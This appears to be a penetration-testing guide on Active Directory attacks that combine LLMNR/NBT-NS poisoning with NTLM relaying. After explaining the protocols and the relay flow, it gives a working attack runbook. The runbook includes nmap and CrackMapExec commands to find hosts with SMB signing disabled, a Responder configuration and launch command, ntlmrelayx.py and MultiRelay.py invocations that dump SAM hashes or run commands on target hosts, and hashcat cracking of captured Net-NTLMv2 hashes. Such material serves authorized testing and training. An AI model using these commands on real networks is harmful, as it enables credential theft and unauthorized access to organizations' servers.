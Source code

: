 # Active Directory - NTLM Relaying

### Overview

The **LLMNR and NBT-NS poisoning attack**, combined with the **SMB Relay
attack**, or **NTLM Relaying**, can be used to gain an authenticated access to
servers by capturing local network SMB authentication traffic and relaying it to
targets servers.

Even when the organization has good patch management practices, this reliable
and effective attack can almost always be leveraged to obtain an initial
foothold.

###### LLMNR and NBT-NS poisoning

The **Link-Local Multicast Name Resolution (LLMNR)** and **Netbios Name
Service (NBT-NS)** protocols can be abused to intercept local network traffic.

These components allow machines on the same subnet to identify hosts when DNS
resolution fails. If one machine tries to resolve a particular host, but DNS
resolution fails, the machine will then attempt to ask all other machines on
the local network for the correct address via LLMNR or NBT-NS.

An attacker can listen on a network for these LLMNR (UDP/5355) or NBT-NS
(UDP/137) broadcasts requests and respond to them, thus pretending to be the
requested host.

###### NTLM relaying

The **NT LAN Manager v1 and v2** authentication process, used in by the
**Server Message Block (SMB)** protocol can be subverted.

The attack unwinds as follow:
  1. The victim tries to authenticates himself to a server
     (SMB_COM_NEGOTIATE Request)
  2. The authentication request is intercepted by an attacker
  3. The attacker initiates an authentication procedure to a targeted server
     and retrieves an authentication challenge (NTLM_CHALLENGE_MESSAGE) from
     this server
  4. The attacker forwards this challenge to the victim
  5. The victim answers the challenge to the attacker
     (NTLM_AUTHENTICATION_MESSAGE)  
  6. The attacker can then relay the victim challenge response to the targeted
     server to authenticate as the victim
  7. If the victim has local admin rights on the server, an complete access can
     be acquired   

Since MS08-068 you cannot relay a Net-NTLM hash back to the same machine you
got it from (e.g. the 'reflective' attack) unless you're performing a
cross-protocol relay.

For the attack to work, SMB Signing needs to be disabled on the targeted
machine. While SMB packet signing is available in all supported versions of
Windows, it is enabled by default on Domain Controllers.

### Exploit

*
To capture and offline crack the hashes captured, do not disable Responder SMB
and HTTP servers. The authentication attempt won't be transmitted to the relay
servers and no NTLM relaying is possible.  
To crack the Net-NTLMv2 hashes use hashcat:  
hashcat -m 5600 <HASHFILE> <WORDLIST> -o <OUTPUTFILE>
*

First, a list of host with SMB signing must be gathered. Either nmap or
CrackMapExec V4 can be used.

Responder can be used to conduct the LLMNR and NBT-NS poisoning
attack and the ntlmrelayx.py Impacket's or MultiRelay.py, that comes
with the Responder toolkit, scripts can be used for the NTLM relaying.  

##### List SMB Signing disabled hosts

Either nmap or CMEv4 can be used to gather a list of host with SMB signing
disabled and output the result to a file:

```bash
nmap -v -sU -sS --open -oA nmap_smb_signing_off --script smb-security-mode.nse -p U:137,T:139,445 <TARGETS>
cat nmap_smb_signing_off.nmap | grep -B 14 "message_signing: disabled" | grep "Nmap scan report for" | cut -d " " -f 5 > <FILE>

cme smb <TARGETS> --gen-relay-list <FILE>
```

##### Intercepting

To check if a specific host, identified by its hostname, has LLMNR activated:

```
nmap --script llmnr-resolve --script-args 'llmnr-resolve.hostname=<HOSTNAME>'
nmap --script llmnr-resolve --script-args 'llmnr-resolve.hostname=<HOSTNAME>' -e <NETWORK_INTERFACE>

# Metasploit
use auxiliary/scanner/llmnr/query
set NAME <HOSTNAME>
run
```

If LLMNR is disabled, system have been hardened but NBT-NS may still be enabled.

Responder can be used to conduct the LLMNR and NBT-NS poisoning
attack.

*Do not use the version of Responder on SpiderLab's Github repository as it
isn't maintained anymore, use lgandx's fork instead.*

Edit the Responder.conf file and turn off the SMB and HTTP servers:

```
[Responder Core]

; Servers to start
SQL = On
SMB = Off     # Turn this off
Kerberos = On
FTP = On
POP = On
SMTP = On
IMAP = On
HTTP = Off    # Turn this off
HTTPS = On
DNS = On
LDAP = On
```

With those servers turned off, the authentication attempts captured are
automatically passed to ntlmrelayx.py's SMB and HTTP servers for the relay
attack.

Start Responder :

```
# -r : Enable answers for netbios wredir suffix queries
# -d : Enable answers for netbios domain suffix queries
# -w :  Start the WPAD rogue proxy server

python Responder.py -I <NETWORK_INTERFACE> -r -d -w
```

##### Relaying

The ntlmrelayx.py Impacket's or MultiRelay.py, that comes
with the Responder toolkit, scripts can be used for the NTLM relaying part:  

```
# ntlmrelayx - By default, dump SAM base.
ntlmrelayx.py -tf <TARGETS_FILE>
ntlmrelayx.py -tf targets.txt -c <COMMAND>

# MultiRelay
MultiRelay.py -t <target host> -c <'command to run'> -u <user to target>
```



### References

https://byt3bl33d3r.github.io/practical-guide-to-ntlm-relaying-in-2017-aka-getting-a-foothold-in-under-5-minutes.html

https://www.sternsecurity.com/blog/local-network-attacks-llmnr-and-nbt-ns-poisoning

https://pen-testing.sans.org/blog/2013/04/25/smb-relay-demystified-and-ntlmv2-pwnage-with-python
